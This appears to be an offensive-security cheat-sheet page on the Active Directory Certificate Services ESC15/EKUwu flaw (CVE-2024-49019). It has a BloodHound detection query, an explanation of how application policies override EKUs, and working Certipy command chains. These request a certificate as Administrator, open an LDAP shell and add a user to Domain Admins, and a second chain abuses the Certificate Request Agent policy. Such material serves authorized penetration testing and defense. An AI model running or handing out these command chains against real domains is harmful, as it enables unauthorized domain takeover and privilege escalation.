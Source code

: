# Active Directory - Certificate ESC15

## ESC15 - EKUwu Application Policies - CVE-2024-49019

This technique now has a CVE number and was patched on November 12, See [Active Directory Certificate Services Elevation of Privilege Vulnerability - CVE-2024-49019](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-49019) for more information.

**Requirements**:

* **Template Schema** Version 1
* **ENROLLEE_SUPPLIES_SUBJECT** = `True`

**Exploitation**:

Detect the vulnerability from BloodHound data using the following cypher query.

```ps1
MATCH p=(:Base)-[:MemberOf*0..]->()-[:Enroll|AllExtendedRights]->(ct:CertTemplate)-[:PublishedTo]->(:EnterpriseCA)-[:TrustedForNTAuth]->(:NTAuthStore)-[:NTAuthStoreFor]->(:Domain) WHERE ct.enrolleesuppliessubject = True AND ct.authenticationenabled = False AND ct.requiresmanagerapproval = False AND ct.schemaversion = 1 RETURN p
```

The **Application Policies** extension is a proprietary certificate extension with the OID `1.3.6.1.4.1.311`, same as **x509 EKUs**. It was designed to allow users to specify additional use cases for certificates by utilizing the same OIDs as those in the Enhanced Key Usage extension.
If there is a conflict between an Application Policy and an EKU, then Microsoft prefers the proprietary Application Policy.

> "Application policy is Microsoft specific and is treated much like Extended Key Usage. If a certificate has an extension containing an application policy and also has an EKU extension, the EKU extension is ignored." - Microsoft

When a user requests a certificate based on a schema version 1 template and includes an application policy, the policy is incorporated into the certificate. This allows users to specify arbitrary EKUs, bypassing the requirements for ESC2.

**ESC1** - The WebServer template is enabled by default in ADCS, requires a user-supplied SAN and only has the `Server Authentication` EKU. Using [ly4k/Certipy PR #228](https://github.com/ly4k/Certipy/pull/228), we can add the `Client Authentication` EKU to `WebServer`. Anybody with the `Enroll` permission on this template can now compromise the domain.

```ps1
certipy req -dc-ip 10.10.10.10 -ca CA -target-ip 10.10.10.11 -u user@domain.com -p 'P@ssw0rd' -template WebServer -upn Administrator@domain.com --application-policies 'Client Authentication'
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10 -ldap-shell

# in LDAP shell
add_user pentest_user
add_user_to_group pentest_user "Domain Admins"
```

**ESC2/ESC3** - **Certificate Request Agent** (`1.3.6.1.4.1.311.20.2.1`),

```ps1
certipy -req -u user@domain.com -p 'P@ssw0rd' --application-policies "1.3.6.1.4.1.311.20.2.1" -ca "Lab Root CA" -template WebServer -dc-ip 10.10.10.10 -target-ip 10.10.10.11
certipy -req -u user@domain.com -p 'P@ssw0rd' -on-behalf-of DOMAIN\\Administrator -Template User -ca "Lab Root CA" -pfx user.pfx -dc-ip 10.10.10.10 -target-ip 10.10.10.11
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10
```

## References

* [AD CS/PKI template exploit via PetitPotam and NTLMRelayx, from 0 to DomainAdmin in 4 steps - frank - July 23, 2021](https://www.bussink.net/ad-cs-exploit-via-petitpotam-from-0-to-domain-domain/)
* [ADCS Exploitation Part 2: Certificate Mapping + ESC15 - Giulio Pierantoni - October 10, 2024](https://medium.com/@offsecdeer/adcs-exploitation-series-part-2-certificate-mapping-esc15-6e19a6037760)
* [Curious case of AD CS ESC15 vulnerable instance and its manual exploitation - Mannu Linux - February 13, 2025](https://www.mannulinux.org/2025/02/Curious-case-of-AD-CS-ESC15-vulnerable-instance-and-its-manual-exploitation.html)
* [EKUwu: Not just another AD CS ESC - Justin Bollinger - October 08, 2024](https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc)
* [ESC15/EKUwu PR #228 - dru1d-foofus - August 10, 2024](https://github.com/ly4k/Certipy/pull/228)
